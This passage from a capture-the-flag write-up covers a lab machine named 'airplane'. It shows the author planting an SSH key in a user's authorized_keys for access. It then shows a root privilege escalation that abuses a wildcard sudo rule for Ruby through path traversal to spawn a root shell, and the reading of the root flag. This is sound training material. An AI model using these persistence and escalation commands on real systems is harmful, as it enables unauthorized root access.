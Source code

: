 ```bash

kali@kali:~/ctf/airplane$ chmod 600 id_rsa

$ echo "ssh-rsa [public-key] kali@kali" > /home/carlos/.ssh/authorized_keys

kali@kali:~/ctf/airplane$ ssh -i id_rsa carlos@10.10.104.147
```

## Privilege Escalation root
I continued with `sudo -l` and got the following output:
```bash
carlos@airplane:~$ sudo -l
  Matching Defaults entries for carlos on airplane:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User carlos may run the following commands on airplane:
      (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

The user carlos was able to run a Ruby script with root permissions. Interestingly, the wildcard allowed me to specify any Ruby script. To exploit this, I created a small Ruby script, executed it, and was able to retrieve the root flag:
```bash
carlos@airplane:~$ echo 'system("/bin/bash")' > shell.rb
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/shell.rb 
root@airplane:/home/carlos# id
  uid=0(root) gid=0(root) groups=0(root)

root@airplane:~# cat /root/root.txt
  1[removed]2
```

solved! :)